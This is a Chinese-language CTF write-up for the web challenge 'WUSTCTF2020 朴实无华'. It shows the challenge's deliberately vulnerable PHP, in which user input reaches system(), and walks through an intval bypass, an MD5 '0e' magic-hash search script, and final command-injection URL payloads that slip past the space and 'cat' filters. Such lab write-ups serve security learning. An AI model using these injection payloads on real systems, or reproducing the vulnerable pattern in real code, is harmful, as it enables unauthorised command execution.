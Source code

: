 ```yaml
---
title: WUSTCTF2020 朴实无华
date: 2023-01-02 19:04 +0800
categories: [CTF,WEB]
tags: [web,buuctf]
img_path: /assets/images/朴实无华.assets
---
```


第一层：robots.txt

```txt
User-agent: *
Disallow: /fAke_f1agggg.php
```

第二层：header头

![image-20230102190519868](image-20230102190519868.png)



```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

level 1

```php
(intval($num) < 2020 && intval($num + 1) > 2021)
```

intval获取变量对的整数值，这里有两种方法都可以

```php
<?php
$a = '1e11';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);

$a = '0x9999';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);
```

level 2

```
$md5=$_GET['md5'];
if ($md5==md5($md5))
```

md5加密前后都相等，这里参考网上的脚本和答案

```python
import hashlib
i = 0
while True:
    text = '0e{}'.format(i)
    m = hashlib.md5(text.encode()).hexdigest()
    if m[0:2] == '0e' :
        if m[2:].isdigit():
            print(text,m)
            break
    i +=1
# 0e215962017
```

level 3

```php
if(!strstr($get_flag," ")){
	$get_flag = str_ireplace("cat", "wctf2020", $get_flag);
	system($get_flag);
```

(!strstr($get_flag," "))

匹配到空格为FALSE，不能有空格

$IFS 在执行 `ls$IFS/` 是可以的，到后面执行读取命令时，不知道为什么失效



str_ireplace("cat", "wctf2020", $get_flag);

cat 替换成 wctf2020，执行的命令最好不要出现 cat，当然这里可以绕过

?num=0x9999&md5=0e215962017&get_flag=c\a\t%09fll*

?num=0x9999&md5=0e215962017&get_flag=tac%09fll*

![image-20230102185754850](image-20230102185754850.png)

![image-20230102190212349](image-20230102190212349.png)